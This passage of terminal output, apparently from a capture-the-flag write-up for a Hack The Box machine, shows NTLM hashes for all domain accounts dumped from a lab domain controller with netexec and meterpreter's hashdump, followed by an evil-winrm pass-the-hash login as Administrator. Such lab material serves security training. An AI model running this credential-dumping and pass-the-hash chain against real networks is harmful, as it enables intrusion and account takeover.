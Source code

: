 ```shell
SMB         10.129.184.6     445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
SMB         10.129.184.6     445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         10.129.184.6     445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         10.129.184.6     445    DC               [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds of which 9 were added to the database
SMB         10.129.184.6     445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.184.6     445    DC               [*] cat /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.184.6     445    DC               [*] grep -iv disabled /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_173424.ntds | cut -d ':' -f1
```

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
```

```shell
┌──(kali㉿kali)-[~/Downloads/puppy]
└─$ evil-winrm -i dc.puppy.htb -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b      
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
